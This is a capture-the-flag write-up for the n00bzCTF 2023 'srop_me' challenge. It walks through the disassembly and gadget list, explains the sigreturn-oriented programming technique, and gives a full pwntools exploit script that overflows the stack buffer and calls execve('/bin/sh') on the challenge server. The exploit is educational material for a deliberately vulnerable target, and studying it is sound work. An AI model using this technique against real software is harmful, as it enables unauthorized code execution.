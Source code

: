 ## Description of the challenge

What can I say except, "You're welcome" :)

Author: NoobHacker

## Solution

The binary name is``srop_me``, so we can assume this is an srop challenge. The
binary is so small we can just objdump it. Seems like the source code was
written in assembly.

```asm  
srop_me:     file format elf64-x86-64

Disassembly of section .text:

0000000000401000 <vuln>:  
 401000:        b8 01 00 00 00          mov    eax,0x1  
 401005:        bf 01 00 00 00          mov    edi,0x1  
 40100a:        48 be 00 20 40 00 00    movabs rsi,0x402000  
 401011:        00 00 00  
 401014:        ba 0f 00 00 00          mov    edx,0xf  
 401019:        0f 05                   syscall  
 40101b:        48 83 ec 20             sub    rsp,0x20  
 40101f:        b8 00 00 00 00          mov    eax,0x0  
 401024:        bf 00 00 00 00          mov    edi,0x0  
 401029:        48 89 e6                mov    rsi,rsp  
 40102c:        ba 00 02 00 00          mov    edx,0x200  
 401031:        0f 05                   syscall  
 401033:        48 83 c4 20             add    rsp,0x20  
 401037:        c3                      ret  

0000000000401038 <_start>:  
 401038:        e8 c3 ff ff ff          call   401000 <vuln>  
 40103d:        b8 3c 00 00 00          mov    eax,0x3c  
 401042:        bf 00 00 00 00          mov    edi,0x0  
 401047:        0f 05                   syscall  
 401049:        c3                      ret  

Disassembly of section .rodata:

0000000000402000 <msg>:  
 402000:        48                      rex.W  
 402001:        65 6c                   gs ins BYTE PTR es:[rdi],dx  
 402003:        6c                      ins    BYTE PTR es:[rdi],dx  
 402004:        6f                      outs   dx,DWORD PTR ds:[rsi]  
 402005:        2c 20                   sub    al,0x20  
 402007:        77 6f                   ja     402078 <binsh+0x69>  
 402009:        72 6c                   jb     402077 <binsh+0x68>  
 40200b:        64 21 21                and    DWORD PTR fs:[rcx],esp  
 40200e:        0a                      or     ch,BYTE PTR [rdi]

000000000040200f <binsh>:  
 40200f:        2f                      (bad)  
 402010:        62                      (bad)  
 402011:        69                      .byte 0x69  
 402012:        6e                      outs   dx,BYTE PTR ds:[rsi]  
 402013:        2f                      (bad)  
 402014:        73 68                   jae    40207e <binsh+0x6f>  
```  
You can notice the program does a write to stdout with the first syscall in
``<vuln>`` (writes the bytes found at ``0x402000`` ``<msg>``) and then reads
0x200 bytes with the second syscall in ``<vuln>``. It is obvious this is a
buffer overflow, so we have control of RIP. The problem here is that we can
neither ret2libc (we lack any library to jump to) and we can't ROP chain
either, because the binary is super small. We can use the hint and SROP the
binary. The idea is to craft a sigreturn frame on the stack and then call the
``sys_rt_sigreturn`` syscall to call ``execve`` with ``/bin/sh`` as arguments.
We look at the ROP gadgets found:  
```  
0x000000000040102e : add al, byte ptr [rax] ; add byte ptr [rdi], cl ; add
eax, 0x20c48348 ; ret  
0x0000000000401028 : add byte ptr [rax - 0x77], cl ; out 0xba, al ; add byte
ptr [rdx], al ; add byte ptr [rax], al ; syscall  
0x0000000000401010 : add byte ptr [rax], al ; add byte ptr [rax], al ; mov
edx, 0xf ; syscall  
0x0000000000401043 : add byte ptr [rax], al ; add byte ptr [rax], al ; syscall  
0x000000000040103f : add byte ptr [rax], al ; add byte ptr [rdi], bh ; syscall  
0x0000000000401011 : add byte ptr [rax], al ; add byte ptr [rdx + 0xf], bh ;
syscall  
0x0000000000401040 : add byte ptr [rax], al ; mov edi, 0 ; syscall  
0x0000000000401012 : add byte ptr [rax], al ; mov edx, 0xf ; syscall  
0x0000000000401017 : add byte ptr [rax], al ; syscall  
0x0000000000401041 : add byte ptr [rdi], bh ; syscall  
0x0000000000401030 : add byte ptr [rdi], cl ; add eax, 0x20c48348 ; ret  
0x0000000000401013 : add byte ptr [rdx + 0xf], bh ; syscall  
0x000000000040102d : add byte ptr [rdx], al ; add byte ptr [rax], al ; syscall  
0x0000000000401032 : add eax, 0x20c48348 ; ret  
0x0000000000401034 : add esp, 0x20 ; ret  
0x0000000000401033 : add rsp, 0x20 ; ret  
0x000000000040103e : cmp al, 0 ; add byte ptr [rax], al ; mov edi, 0 ; syscall  
0x0000000000401042 : mov edi, 0 ; syscall  
0x000000000040102c : mov edx, 0x200 ; syscall  
0x0000000000401014 : mov edx, 0xf ; syscall  
0x000000000040102a : mov esi, esp ; mov edx, 0x200 ; syscall  
0x0000000000401029 : mov rsi, rsp ; mov edx, 0x200 ; syscall  
0x000000000040102b : out 0xba, al ; add byte ptr [rdx], al ; add byte ptr
[rax], al ; syscall  
0x0000000000401037 : ret  
0x0000000000401019 : syscall  
```  
We have the syscall gadget, but no way of really controlling RAX, to be able
to call ``sys_rt_sigreturn``. However, we can use the previous syscall to
control RAX. The return code of a syscall is written to RAX. For example, the
read call will change RAX to however many bytes we've read. So we could use
the read to setup the sigreturn frame on the stack and then return back to the
read syscall, to read some more. Then we read exactly 15 bytes, to prepare
``RAX=0xf`` for ``sys_rt_sigreturn``. Then we return to syscall and execute
the frame prepared:  
```py  
#!/usr/bin/env python3

from pwn import *

context.clear()  
context.arch = "amd64"

#target = process("./srop_me")  
target = remote("challs.n00bzunit3d.xyz", 38894)

sh_addr = 0x000000000040200f  
syscall_gadget = 0x0000000000401019  
read_gadget = p64(0x40101b)

frame = SigreturnFrame()  
frame.rax = 59 # syscall code for execve  
frame.rdi = sh_addr  
frame.rsi = 0  
frame.rdx = 0  
frame.rsp = 0  
frame.rip = syscall_gadget

payload = b"a" * 32 + read_gadget + p64(syscall_gadget) + bytes(frame)

target.sendline(payload)  
target.sendline(b"a" * 0xe) # read 0xe bytes because it also reads the newline  
target.interactive()  
```

Run the exploit:  
```  
[+] Starting local process './srop_me': pid 32381  
[*] Switching to interactive mode  
Hello, world!!  
$ whoami  
sunbather  
```

Shells achieved.  

Original writeup (https://dothidden.xyz/n00bzctf_2023/asm/).